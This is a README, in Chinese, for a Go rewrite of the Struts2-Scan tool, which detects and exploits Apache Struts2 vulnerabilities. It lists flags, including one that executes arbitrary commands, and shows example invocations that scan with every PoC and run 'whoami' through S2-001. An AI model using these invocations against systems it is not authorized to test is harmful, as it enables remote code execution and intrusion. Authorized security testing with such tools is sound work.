 用Golang重写[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)项目。

工具参数说明
```
Usage of main.exe:
  -u url
      you target, example: https://192.168.1.1
  -c command
      you want execute command, example: "whoami"
  -n name
      漏洞名，可选S2-001, S2-003, S2-005, S2-007, S2-008, S2-009, S2-012, S2-013, S2-015, S2-016, S2-019,
                S2-029, S2-032, S2-033, S2-037, S2-045, S2-046, S2-048, S2-052, S2-053, S2-devMode, S2-057,allPoc(除了s2-052)
                (单独使用POC | EXP 例: S2-001 | s2-001_Cmd | s2-001_WebPath)
  -d data
          POST , 需要使用的payload使用{exp}填充, 如: name=test&passwd={exp}
  -t Type
      指定contentType头
```

+ 一键检测

```
GolangStruts2.exe -u http://127.0.0.1 -n allPoc
```

+ 单个利用

```
GolangStruts2.exe -u http://127.0.0.1 -n S2-001 -c whoami
```
